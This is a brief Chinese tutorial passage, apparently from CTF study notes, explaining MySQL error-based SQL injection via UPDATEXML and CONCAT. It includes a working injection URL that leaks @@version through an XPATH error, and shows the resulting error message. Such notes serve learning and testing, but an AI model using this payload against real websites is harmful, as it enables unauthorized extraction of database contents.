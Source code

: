 1.xmlupdate()

UPDATEXML (XML_document, XPath_string, new_value); 

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 

第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。 

第三个参数：new_value，String格式，替换查找到的符合条件的数据 

作用：改变文档中符合条件的节点的值

然后咱们再看看语句：

http://domain.com/flag.php?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

CONCAT(str1,str2,…)  

返回结果为连接参数产生的字符串。如有任何一个参数为NULL ，则返回值为 NULL。

通过查询@@version,返回版本。然后CONCAT将其字符串化。因为UPDATEXML第二个参数需要Xpath格式的字符串,所以不符合要求，然后报错。

错误大概会是：

ERROR 1105 (HY000): XPATH syntax error: ’:root@localhost’

不懂Xpath格式的字符串的来这里：http://www.cnblogs.com/Loofah/archive/2012/05/10/2494036.html



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/mysql注入语法基础/mysql报错注入/images/CD7D15E140A24BA09F71F48F36902BCC2019-03-31_181438.png)

